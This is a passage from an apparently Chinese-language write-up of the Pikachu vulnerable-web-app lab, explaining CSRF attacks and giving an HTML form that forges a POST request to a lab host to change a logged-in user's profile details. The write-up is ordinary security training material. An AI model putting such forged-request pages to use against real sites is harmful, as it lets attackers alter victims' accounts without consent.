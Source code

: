 在用户已经登录(用户浏览器存在有效cookie)时，诱导用户点击恶意链接即可使其修改个人信息,可以和存储型xss组合使用，危害更大

![](..\img\Pikachu\2022-06-27-11-39-47.png)

## CSRF(post)

post参数在请求体中，所以需要诱导用户提交表单数据才能完成攻击，一般需要仿造一个正常页面欺骗用户点击

```html
<form method="post" action="http://192.168.10.52/pkq/vul/csrf/csrfpost/csrf_post_edit.php">
   <h1 class="per_title">hello,,欢迎来到个人会员中心 | <a style="color:bule;" href="csrf_post.php?logout=1">退出登录</a></h1>
   <p class="per_name">姓名:</p>
   <p class="per_sex">性别:<input type="text" name="sex" value=""/></p>
   <p class="per_phone">手机:<input class="phonenum" type="text" name="phonenum" value=""/></p>    
   <p class="per_add">住址:<input class="add" type="text" name="add" value=""/></p> 
   <p class="per_email">邮箱:<input class="email" type="text" name="email" value=""/></p> 
   <input class="sub" type="submit" name="submit" value="submit"/>
</form>
```
![](..\img\Pikachu\2022-06-27-14-18-11.png)
